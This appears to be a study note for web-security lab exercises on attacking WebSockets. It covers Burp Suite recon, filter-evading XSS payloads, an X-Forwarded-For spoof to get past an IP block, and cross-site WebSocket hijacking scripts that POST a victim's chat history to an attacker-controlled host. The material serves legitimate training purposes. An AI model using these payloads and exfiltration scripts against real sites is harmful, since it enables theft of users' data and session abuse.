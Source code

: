 ![[WebSockets.jpg]]
# Recon

On the Proxy tab in Burp Suite, there is a “WebSockets history” section. This section will contain any WebSockets messages initiated by the application. If this section has any requests, then the application is using WebSockets.

After identifying that WebSockets are in use, the 3 labs on this document can help to formulate ideas to attack the application.
# XSS Exploit

Try to submit an XSS payload within a parameter in the WebSocket message. The application is returning this value without any input validation or encoding, and it is between some HTML tags, so the data is executed as JavaScript code.
# XSS Exploit + Brute Force Bypass

Use the WebSockets to exploit an XSS vulnerability. If the application is blacklisting your IP address, try using the X-Forwarded-For header to spoof the IP address. Try a variety of different payloads depending on how the application responds. 

A final XSS payload using backticks since the app was not allowing to use brackets:

```json
{"message":"Test<img src=x oNeRRoR=alert`1`>"}
```

Another payload that worked was HTML encoding the "alert" keyword:

```json
{"message":"<img src=x OnErRoR=&#97;&#108;&#101;&#114;&#116;(1)>"}
```
# Cross-Site WebSocket Hijacking

Identify if the WebSockets Handshake request is vulnerable to Cross-Origin WebSocket Hijacking/CSRF attack. The handshake request can be identified by looking for the following headers in the WebSockets requests:

- Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
- Connection: keep-alive, Upgrade
- Upgrade: websocket

If the handshake request relies solely on session cookies and does not contain any unpredictable parameters, then it is vulnerable to a CSRF attack. Depending on how the application uses the WebSocket's, we can perform unauthorized actions or retrieve sensitive data that the user can access.

As an example, the payload below can be used to retrieve sensitive information from the application that belongs to another user. When we send the "READY" command to the server via the WebSocket message, all the past chat messages will be received. 

When the messages are received from the server, they will be sent to attacker's server. This is possible as cross-site websocket hijacking attacks, allows for 2-way interaction, unlike standard CSRF attacks.

Host the following in the exploit server:

```html
<script>
    var ws = new WebSocket('wss://VULNERABLE-WEBSOCKET-URL');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ATTACKER-SERVER', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

An example exploitation payload - although this does not work in the labs, this is something that can be done to inject XSS through web socket messages to attack other users. The "message" parameter in the lab was used to communicate/send messages to the server through web socket.

```html
<script>
    var ws = new WebSocket('wss://0a97008101b00a8.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("{\"message\":\"<img src=x onerror=alert(1)>\"}");
    };
    ws.onmessage = function(event) {
        fetch('https://a8jc1jg75.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

